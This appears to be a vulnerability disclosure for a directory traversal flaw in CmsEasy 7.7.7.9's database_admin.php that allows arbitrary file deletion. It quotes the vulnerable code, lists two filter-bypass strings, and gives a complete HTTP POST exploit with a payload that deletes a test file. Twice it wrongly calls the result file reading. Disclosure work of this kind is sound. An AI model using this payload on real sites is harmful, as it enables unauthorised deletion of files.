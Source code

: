 # CmsEasy-V7.7.7.9 20240105-Directory Traversal



## Introduce

CmsEasy has a directory traversal vulnerability in `lib/admin/database_admin.php` that allows arbitrary file deletion. Attackers can exploit this vulnerability to traverse directories and delete arbitrary files.



## Analyze

In the `lib/admin/database_admin.php` file, due to insufficient filtering in the `backAll_action` function, directory traversal leads to arbitrary file deletion.

![image-20250123005104482](E:\tmp\cmseasy-1.png)



```php
 function backAll_action(){
        $dir=ROOT.'/data/backup-website';
        if(front::post('submit') &&is_array(front::post('select'))) {
            foreach(front::post('select') as $d) {
                $d = str_replace('#', '', $d);
                $d = str_replace('../', '', $d);
                $d = str_replace('./', '', $d);
                @unlink($dir.'/'.$d);
            }
            front::flash(lang_admin('success').lang_admin('delete').count(front::post('select')).lang_admin('individual').lang_admin('archives').'！');
        }
        $dirs=front::scan($dir);
        $db_dirs=array();
        foreach($dirs as $dir) {
            if(!preg_match('/\.\./',$dir)) $db_dirs[]=service::lockString($dir);
        }
        //var_dump($db_dirs);
        $this->view->db_dirs=$db_dirs;
    }
```

The `front::post` method is equivalent to `$_POST`.

It can be observed that the dangerous function `unlink` is used.
Additionally, the parameter `select` is controllable (an array).

```php
foreach(front::post('select') as $d) {
                $d = str_replace('#', '', $d);
                $d = str_replace('../', '', $d);
                $d = str_replace('./', '', $d);
                @unlink($dir.'/'.$d);
            }
```

Through analysis and filtering, it can be concluded that developers want to avoid arbitrary file reading vulnerabilities caused by path traversal.

However, an attacker can use filter conditions to construct content to achieve arbitrary file reading.

```

Bypass Method 1:
.....///.....///
=>
../../


Bypass Method 2:  # Utilize Windows parsing characteristics (this method only works on Windows).
..\\..\\
```



## Exploit

```http
POST /index.php?case=database&act=backAll&admin_dir=admin&site=default HTTP/1.1
Host: 192.168.0.104:5678
Content-Length: 38
Cache-Control: max-age=0
Origin: http://192.168.0.104:5678
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/132.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://127.0.0.1:5678/index.php?case=admin&act=login&admin_dir=admin&site=default
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
sec-fetch-site: same-origin
sec-fetch-mode: navigate
sec-fetch-user: ?1
sec-fetch-dest: document
sec-ch-ua: "Not A(Brand";v="8", "Chromium";v="132", "Google Chrome";v="132"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
cookie: loginfalse74c6352c5a281ec5947783b8a186e225=6; PHPSESSID=73sf2og6s5l9qp6507aeofvp19; allowdown=985f28e9d3af52c829b07a025282006b; login_username=admin; login_password=yxx2O2HvK1vseDc6d%253DMBgleqHCHKdC%253DocDZ%253DK%253DMuLxOuV2ab18391e6e61e99aff8e10d05e4ad02
Connection: keep-alive

submit=1&select[]=.....///.....///test.txt
```



Create `1.txt` file to test.

![image-20250123010305574](C:\Users\Rorochan\AppData\Roaming\Typora\typora-user-images\image-20250123010305574.png)



Send the exploit (constructing two levels up in the directory because the trigger point is located in `lib/admin/database_admin.php`).  The response "Template does not exist" is displayed normally, but the deletion was actually successful.

![image-20250123010228909](C:\Users\Rorochan\AppData\Roaming\Typora\typora-user-images\image-20250123010228909.png)



The file can be seen to have been deleted.

![image-20250123010334583](C:\Users\Rorochan\AppData\Roaming\Typora\typora-user-images\image-20250123010334583.png)

